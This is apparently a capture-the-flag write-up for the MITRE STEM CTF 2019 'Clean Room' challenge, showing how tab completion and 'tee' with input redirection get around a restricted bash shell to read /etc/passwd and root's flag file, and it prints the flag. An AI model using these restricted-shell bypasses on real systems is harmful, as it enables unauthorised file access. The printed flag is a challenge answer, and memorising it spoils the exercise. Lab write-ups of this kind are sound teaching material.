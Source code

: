 ```yaml
---
layout: single
title: "MITRE STEM CTF Cyber Challenge 2019 - Clean Room (Linux 50pts)"
date: 2019-02-24
---
```

Description
The year is 30xx. Clyde is trapped in an interdimensional transport module. The Federation has captured the module and has prepared to dock. The captain of the Federation lander has instructed the henchmen to bring Clyde in to Federation custody. As a precaution they will place Clyde in a clean room to remove any radiation. Luckily, you’ve hacked into the lander’s mainframe. Help Clyde escape!

ssh ctf@138.247.13.108

ctf@e94f4dd9664a:~$ ls
-rbash: ls: command not found

What the rbash?!

From the [bash manual](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html).

> If Bash is started with the name rbash, or the --restricted or -r option is supplied at invocation, the shell becomes restricted. A restricted shell is used to set up an environment more controlled than the standard shell. A restricted shell behaves identically to bash with the exception that the following are disallowed or not performed:

> * Changing directories with the cd builtin.
> * Setting or unsetting the values of the SHELL, PATH, ENV, or BASH_ENV variables.
> * Specifying command names containing slashes.
> * Specifying a filename containing a slash as an argument to the . builtin command.
> * Specifying a filename containing a slash as an argument to the -p option to the hash builtin command.
> * Importing function definitions from the shell environment at startup.
> * Parsing the value of SHELLOPTS from the shell environment at startup.
> * Redirecting output using the ‘\>’, ‘\>\|’, ‘\<\>’, ‘\>&’, ‘&\>’, and ‘\>\>’ redirection operators.
> * Using the exec builtin to replace the shell with another command.
> * Adding or deleting builtin commands with the -f and -d options to the enable builtin.
> * Using the enable builtin command to enable disabled shell builtins.
> * Specifying the -p option to the command builtin.
> * Turning off restricted mode with ‘set +r’ or ‘set +o restricted’.



So now that we know what we can't do, what can we do? We can use bash's command completion (tab) in order to enumerate a list of functions and commands available.
```bash
ctf@e94f4dd9664a:~$
!          break      coproc     enable     fi         jobs       popd       shift      true       {
./         builtin    declare    esac       for        kill       printf     shopt      type       }
:          caller     dirs       eval       function   l          pushd      source     typeset
[          case       disown     exec       getopts    la         pwd        suspend    ulimit
[[         cd         do         exit       grep       let        read       tee        umask
]]         command    done       export     hash       ll         readarray  test       unalias
alert      compgen    echo       false      help       local      readonly   then       unset
alias      complete   egrep      fc         history    logout     return     time       until
bg         compopt    elif       fg         if         ls         select     times      wait
bind       continue   else       fgrep      in         mapfile    set        trap       while
```

The command: [tee(1)](http://man7.org/linux/man-pages/man1/tee.1.html) immediately stood out as it is not a builtin command and can be used to enumerate directory contents and read files. Using tee and shell completion, we can list the files in a directory.

```bash
ctf@e94f4dd9664a:~$ tee
.bash_logout  .bashrc       .profile      bin/
```

We can also use a combination of tee and shell input redirection to read the contents of any file that we have access to
```bash
ctf@e94f4dd9664a:~$ tee < /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/rbash
```


We enumerated many directories looking for anything that stood out.
```
ctf@e94f4dd9664a:~$ tee < /
.dockerenv  dev/        lib/        mnt/        root/       srv/        usr/
bin/        etc/        lib64/      opt/        run/        sys/        var/
boot/       home/       media/      proc/       sbin/       tmp/
```

It turned out that root's home directory was world readable and contained a file, flag.txt which contained as it's name suggests... the flag.
```bash
ctf@e94f4dd9664a:~$ tee < /root/
.bashrc   .profile  flag.txt

ctf@e94f4dd9664a:~$ tee < /root/flag.txt
MCA{ieHaisoh4eif2ae}
```
